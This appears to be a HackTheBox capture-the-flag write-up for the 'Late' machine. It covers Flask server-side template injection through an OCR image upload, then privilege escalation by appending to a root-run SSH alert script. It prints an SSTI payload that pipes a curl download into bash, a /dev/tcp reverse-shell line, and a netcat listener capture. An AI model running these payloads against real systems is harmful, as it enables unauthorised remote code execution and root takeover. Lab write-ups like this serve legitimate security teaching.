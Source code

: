 ```yaml
---
layout: post
title: HackTheBox - Late - Write-up
difficulty: easy
tags: [ssti, hashcat]
---
```

***

## Quick Hits:

| Info | Details |
| ---- | ------- |
| **IP Address** | 10.10.11.156 |
| **Difficulty** | 🟢 Easy |
| **Exploits** | Server-Side Template Injection |
| **Tools Used** |  |
| **Techniques Used** |  |
| **Interesting Files** |  |

#### Port Scan Results:

| Port | State | Service | Version |
| ---- | ----- | ------- | ------- |
| 22/tcp | open | ssh | OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0) |
| 80/tcp | open | http | nginx 1.14.0 (Ubuntu) |

***

## Walk-through

Visiting the website leads us to a simple landing page with marketing materials for an online photo editor. Going through the pages within the site gives us a link to `images.late.htb`, which we can include in our `/etc/hosts` file to browse.

#### Server-Side Template Injection

The `images.late.htb` site contains an Image to Text conversion application. It uses some Optical Character Recognition (OCR) library to detect any text from an image, and return it back in the response. This application seems to be an implementation of [lucadibello/ImageReader](https://github.com/lucadibello/ImageReader), which renders the `text` output using the `render_template` function.

``` python
@app.route('/result')
def result():
    if "data" in session:
        data = session['data']
        return render_template(
            "result.html",
            title="Result",
            time=data["time"],
            text=data["text"],
            words=len(data["text"].split(" "))
        )
    else:
        return "Wrong request method."
```

In Flask, the `render_template` function allows us to evaluate expressions using the `{{ ... }}` syntax. For example, mathematical expressions such as `{{7*7}}` would be evaluated and would result in an output of `49`. We can use this technique to execute code using the Flask engine.

We can create and image that simply says: `{{7*7}}`, and just as we thought, it gave us the following response, confirming the Server-Site Template Injection:

``` html
<p>49
</p>
```

This required a lot of tinkering of the image to get the exploit to work. The OCR was not particularly consistent, so a lot of characters were interpreted differently. In the end, I was able to create an image with the following payload to successfully create a reverse shell connection back to my machine:

``` python
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen("curl 10.10.10.10 | bash".read() }}
```

###### ***Note:*** I hosted a Reverse-Shell Bash script in an HTTP server so that it can pipe that over to `bash` after `curl`ing it.

***And, we're in!***

#### Privilege Escalation

Running `linpeas.sh` would give us back an interesting script file: `/usr/local/sbin/ssh-alert.sh`. This seems to sends an email notification to `root@late.htb` whenever an SSH login is detected.

``` bash
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

When we check the file, it's actually owned by our current user `svc_acc`. So, we can change the script and it will execute our code when an SSH login is detected. However, when we try doing so, we are blocked because the `a` attribute for the file is set, meaning we can only append to it.

```
svc_acc@late:~$ ls -l /usr/local/sbin/ssh-alert.sh
-rwxr-xr-x 1 svc_acc svc_acc 433 Jul 25 21:01 /usr/local/sbin/ssh-alert.sh

svc_acc@late:~$ lsattr /usr/local/sbin/ssh-alert.sh
-----a--------e--- /usr/local/sbin/ssh-alert.sh
```

We can simply append a reverse-shell command to the `ssh-alert.sh` script to connect back to our machine. But first, we need to be able to login using SSH first. To do so, we can get the SSH private key of `svc_acct` from `home/svc_acc/.ssh/id_rsa` and copy it over to our machine.

```
svc_acc@late:/usr/local/sbin$ echo "bash -i >& /dev/tcp/10.10.10.10/37117 0>&1" >> ssh-alert.sh
```

Finally, we can then listen for the reverse-shell connection and use the private key of the `svc_acct` (`id_rsa`) to login through SSH, triggering the code we appended.

```
$ nc -nlvp 37117
listening on [any] 37117 ...
connect to [10.10.10.10] from late.htb [10.10.11.156] 41502
bash: cannot set terminal process group (1975): Inappropriate ioctl for device
bash: no job control in this shell
root@late:/# whoami
root
```
***And, we're done!***
